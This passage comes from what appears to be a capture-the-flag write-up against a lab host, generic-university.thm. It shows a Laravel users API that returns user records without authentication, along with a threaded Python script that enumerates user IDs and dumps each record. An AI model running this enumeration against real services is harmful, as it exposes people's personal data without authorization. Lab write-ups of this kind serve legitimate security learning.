 ```shell
< Set-Cookie: laravel_session=eyJpdiI6InRQRFlxMjg2d2ZBcm9mREcyMUU5WWc9PSIsInZhbHVlIjoiekxQTXBDN2REMURFZnR3UWE0Nkk5Q0ZnUkdXdVhpY0JrMWlVSXJmbk13Z0Z4c0RMcXFaRHc1YjJzN1dTc3FJRWZUNDZ2MWtCVGIyT1VuZ2RMSGY2ZXRodi9KalhPWmtFVlBYRjczQ01NWnI3OVdiOFp2cmplUXJyZzBiNU1xQ2wiLCJtYWMiOiIzMTkyYTc3YzdhMjBlNmE0MzYwNzRkOTAxZGJjY2NiNGQzZTFmYmVkNWE2N2ZmYTkxNGZjZGUxMGRjNTJmMGE3In0%3D; expires=Tue, 21-Feb-2023 14:57:21 GMT; Max-Age=7200; path=/; httponly; samesite=lax
< Content-Length: 190
< Content-Type: application/json
< 
* Connection #0 to host generic-university.thm left intact
{"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1}
```

We can reach that endpoint **without authentication**!

That being said, we can enumerate all users in this web application!

Also, when we reach the website, it'll set 2 new cookies: `XSRF-TOKEN` and `laravel_session`. Which indicates that **this web application is using a PHP framework called Laravel**.

**Let's write a simple Python script to automate the enumeration!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Requester:
    def __init__(self, URL, apiEndpoint):
        self.URL = URL
        self.apiEndpoint = apiEndpoint

    def sendRequest(self, userId):
        userAPIRequestResult = requests.get(self.URL + self.apiEndpoint + str(userId))

        if "{'not found':true}" not in userAPIRequestResult.text:
            print(f'[+] Found valid user ID: {userId}')
            print(f'[+] user ID {userId} data: {userAPIRequestResult.text}')

def main():
    URL = 'http://generic-university.thm'
    apiEndpoint = '/api/users/'

    requester = Requester(URL, apiEndpoint)
    for userId in range(100):
        print(f'[*] Trying user ID: {userId}', end='\r')
        thread = Thread(target=requester.sendRequest, args=(userId,))
        thread.start()
        sleep(0.3)

if __name__ == '__main__':
    main()
```
